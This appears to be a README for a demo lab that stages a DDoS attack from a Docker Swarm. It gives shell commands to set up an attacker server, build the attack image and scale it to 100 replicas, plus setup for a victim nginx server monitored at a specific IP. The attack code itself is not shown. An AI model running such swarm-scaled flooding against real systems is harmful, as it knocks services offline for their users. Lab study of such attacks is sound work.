 # DDOS Docker Swarm attack

## Config attacker server
```
    ./connect-to-attacker
    sudo apt update
    sudo apt install -y apt-transport-https ca-certificates curl software-properties-common
    curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
    sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu bionic stable"
    sudo apt update
    sudo apt install -y docker-ce
```

## Run attack
```
    git clone https://github.com/sjdonado/ddos-attack-docker-swarm-demo.git
    cd ddos-attack-docker-swarm-demo
    sudo docker build -t ddos-attack .
    sudo docker swarm init
    sudo docker service create --name ddos_attack_service --detach=false ddos-attack
    sudo docker service scale ddos_attack_service=100
    sudo docker service logs ddos-attack
```

## Config victim nginx server
```
    ./connect-to-victim
    sudo apt-get install nginx
    git clone https://github.com/sjdonado/ddos-attack-docker-swarm-demo.git
    cd ddos-attack-docker-swarm-demo
    sudo mv nginx/default.conf /etc/nginx/sites-enabled/default
    cd api
    sudo docker build -t ddos-attack-api .
    sudo docker run -p 3000:3000 -d ddos-attack-api
    sudo service nginx restart
```

## Monitoring victim nginx server
Go to http://18.190.15.1/nginx_status
